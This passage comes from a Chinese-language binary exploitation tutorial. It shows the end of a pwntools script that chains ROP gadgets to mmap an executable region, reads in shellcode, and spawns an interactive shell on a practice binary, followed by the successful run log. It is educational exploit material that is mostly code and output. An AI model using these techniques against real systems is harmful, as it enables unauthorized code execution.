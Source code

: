     #mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
    payload3 =  "\x00"*136
    payload3 += p64(pop_rax_ret) + p64(mmap_addr)
    payload3 += p64(linker_addr+0x35) + p64(0) + p64(34) + p64(7) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) 
    
    #read(rdi=0, rsi=shellcode_addr, rdx=1024)
    payload3 += p64(pop_rax_ret) + p64(plt_read)
    payload3 += p64(linker_addr+0x35) + p64(0) + p64(0) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0)  
    
    payload3 += p64(shellcode_addr) 
    
    print "\n#############sending payload3#############\n"
    p.send(payload3)
    sleep(1)    
    
    #raw_input()    
    
    p.send(shellcode+"\n")
    sleep(1)    
    
    p.interactive()
    

成功pwn后的效果如下：

    
    
    $ python exp8.py 
    [+] Started program './level5'
    got_write: 0x601000
    got_read: 0x601008
    plt_read: 0x400440
    linker_point: 0x600ff8
    got_pop_rax_ret: 0x23950
    off_mmap_addr: -0x9770
    off_pop_rax_ret: 0xc2670
    
    #############sending payload1#############
    
    write_addr: 0x7f9d39d95fc0
    mmap_addr: 0x7f9d39d9f730
    pop_rax_ret: 0x7f9d39cd3950
    
    #############sending payload2#############
    
    linker_addr + 0x35: 0x7f9d3a083235
    
    #############sending payload3#############
    
    [*] Switching to interactive mode
    $ whoami
    mzheng
    

# 0x03 堆漏洞利用之double free
